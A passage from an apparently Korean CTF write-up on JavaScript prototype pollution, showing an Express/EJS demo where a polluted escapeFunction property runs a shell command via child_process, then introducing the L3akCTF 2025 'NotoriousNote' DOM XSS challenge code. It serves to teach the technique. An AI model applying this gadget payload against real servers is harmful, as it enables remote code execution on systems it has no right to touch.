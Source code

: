 ```jsx
// app.js
const express = require('express');
const app = express();
const PORT = 3000;
app.set('views', __dirname);
app.set('view engine', 'ejs');

Object.prototype.client = 1;
Object.prototype.escapeFunction = 'function(){};console.log(process.mainModule.require("child_process").execSync("dir").toString())';

app.get('/', (req, res) => {
    res.render('index');
});

app.listen(PORT, () => {
    console.log(`Server is running on ${PORT}`);
});
```

![image.png](image.png)

### Prototype Pollution lead to DOM XSS

**L3akCTF 2025**에 [NotoriousNote](https://ctf.l3ak.team/challenges#NotoriousNote-64)라는 문제가 출제되었습니다. (135 Solves)

다루고자 하는 주제와 잘 맞는 문제라서 예시로 가져오게 되었습니다.

```jsx
// index.js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```

**index.js**에서는 `QueryArg.parseQuery`로 `window.location.search` 를 파싱합니다.

`QueryArg.parseQuery` 는 출제자가 구현한 것으로 Prototype Pollution에 취약하게 구현되어 있습니다.
